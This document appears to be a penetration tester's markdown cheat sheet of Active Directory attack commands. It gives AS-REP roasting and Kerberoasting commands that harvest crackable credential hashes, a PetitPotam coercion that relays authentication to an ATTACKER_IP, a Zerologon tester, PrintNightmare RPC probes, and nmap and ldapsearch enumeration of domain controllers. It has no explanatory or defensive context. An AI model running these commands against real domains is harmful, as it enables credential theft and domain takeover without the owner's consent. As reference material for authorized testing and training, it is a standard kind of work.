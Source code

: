 # Windows Active Directory

## AS-REP Roasting

GetNPUsers.py -dc-ip <TARGET_IP> -usersfile /usr/share/seclists/Usernames/top-usernames-shortlist.txt
 -no-pass <DOMAIN.TLD>/ | grep -v UNKNOWN
 
GetNPUsers.py -dc-ip <TARGET_IP> -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -no-pass <DOMAIN.TLD>/ | grep -v UNKNOWN

## PetitPotam
ntlmrelayx.py -smb2support

python3 petitpotam.py <ATTACKER_IP> <TARGET_IP>

## ZeroLogin
python3 zerologon_tester.py <NETBIOS DC COMPUTER NAME> <TARGET_IP>

## Kerberoasting
GetUserSPNs.py -request <AD_DOMAIN>/<USER>:<PASSWORD>

GetUserSPNs.py -request<AD_DOMAIN>/<USER> -hashes <REPLACE WITH NTLM HASHES eg ABC:DEF>

## PrintNightmare
rpcdump.py <TARGET_IP> | egrep 'MS-RPRN|MS-PAR'

## SMB Signing
nmap --script smb2-security-mode -p 445 <TARGET_IP>

## SMBv1
nmap --script smb-protocols -p 445 <TARGET_IP>

## LDAP
nmap -sV -p 389,636,3268,3269 --script ldap-search,ldap-rootdse,ldap-novell-getpass <TARGET_IP>

ldapsearch -x -H ldap://<TARGET_IP>:3268

ldapsearch -x -H ldap://<TARGET_IP>:3268 -b "dc=<CHANGE>,dc=<CHANGE>"

## EternalBlue
nmap --script smb-vuln-ms17-010 -p 445 <IP_ADDRESS>
